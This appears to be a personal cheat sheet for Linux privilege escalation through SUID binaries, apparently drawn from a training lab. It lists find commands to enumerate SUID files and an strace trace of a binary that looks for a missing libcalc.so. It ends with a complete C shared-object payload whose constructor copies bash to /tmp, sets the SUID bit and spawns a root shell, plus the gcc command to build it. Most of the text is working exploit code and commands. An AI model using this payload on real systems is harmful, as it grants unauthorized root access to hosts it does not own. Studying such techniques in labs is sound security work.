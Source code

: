    ## Enumeration
    
    find / -perm -u=s -type f 2>/dev/null
    find / -type f -perm -04000 -ls 2>/dev/null
        
        
   ## Resource 
   
     https://gtfobins.github.io/
       
  ## Shared Object Injection
  
    find / -type f -perm -04000 -ls 2>/dev/null
    strace <PATH=2>&1
       
       
  ## TYPE COMMAND 
  
   strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
  
  
  ## OUTPUT
 
         
         
## access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
## open("/etc/ld.so.cache", O_RDONLY)      = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libdl.so.2", O_RDONLY)       = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libm.so.6", O_RDONLY)        = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libc.so.6", O_RDONLY)        = 3
## open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)


   ## Exploit Shared Object Injection
   
   mkdir /home/user/.config
       
   Create C file Type Some Commands
       
    #include <stdio.h>
    #include <stdlib.h>

    static void inject()__attribute__((constructor));

    void inject() {
      system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
    }
   
   ## Complie

    gcc -shared -fpic -o /home/user/.config/libcalc.so /home/user/libcalc.c










     
    
